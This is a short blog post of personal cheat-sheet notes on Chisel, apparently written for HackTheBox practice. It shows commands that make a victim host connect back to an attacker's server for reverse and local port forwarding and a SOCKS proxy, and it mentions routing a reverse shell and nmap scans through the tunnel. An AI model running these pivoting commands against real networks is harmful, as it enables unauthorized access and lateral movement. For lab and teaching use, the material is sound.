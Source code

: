 ```yaml
---
layout: post
title: My Notes about Chisel (Tool for Tunneling)
tags: [System Hacking, Chisel]
comments: true
---
```


Hey guys today i am sharing my little notes about a insane tool called **chisel**. Chisel, one of the tool i am using mostly while doing HackTheBox.

Thanks to **ippsec** for teaching me about chisel.

I will show you some important usages of chisel with example.

## Chisel cheat sheet.

* Here attacker IP is **10.14.14.14** and client IP is **10.10.10.10**.

### Reverse Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 --reverse
~~~

   * --reverse : Tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box.

* From victim (10.10.10.10 is client).

~~~
chisel client 10.14.14.14:8000 R:8001:172.18.0.3:80 (This will listen on port 8001 on all interface on attacker box). (Bad way)
~~~

~~~
chisel client 10.14.14.14:8000 R:127.0.0.1:8001:172.18.0.3:80 (Best way)
~~~

  * chisel connect to server 
    
  * and open port 8001 on remote box which is on server. R is for remote
    
  * if any packet on server:8001 it will go through tunnel we created through 8000 and then send it out to 172.18.0.3:80
    
So now we can do a curl command from our kali box and we can now access website running on 172.18.0.3:80.

### Local Pivot - Example

* Start chisel server on port 8000 (attacker system is server).

~~~
chisel server -p 8000 
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel client 10.14.14.14:8000 9001:127.0.0.1:8001
~~~

 * chisel connect to server 
 
 * open port 9001 on client (10.10.10.10).
 
 * any packet to 10.10.10.10:9001 will go through tunnel and land on port 10.14.14.14:8001

So now send reverse shell to 9001 from somewhere on the network and recieve it on 8001 on attacker box.

### Socks Proxy

Chisel also supports **socks** option.

As usual,

* From attacker box start chisel server.

~~~
chisel server -p 8000 --reverse
~~~

* From victim (10.10.10.10 is client). 

~~~
chisel.exe client 10.14.14.14:8000 R:0.0.0.0:1080:socks
~~~

OR

~~~
chisel.exe client 10.14.14.14:8000 R:socks
~~~

I usually use proxychains. To use proxychains you just have to add the following line to **/etc/proxychains.conf**:

~~~
socks5 127.0.0.1 1080
~~~

Then use proxychains with all your favourite tools,

~~~
proxychains nmap -sC -sT -p 80 172.19.0.4
~~~

Hope this will help..
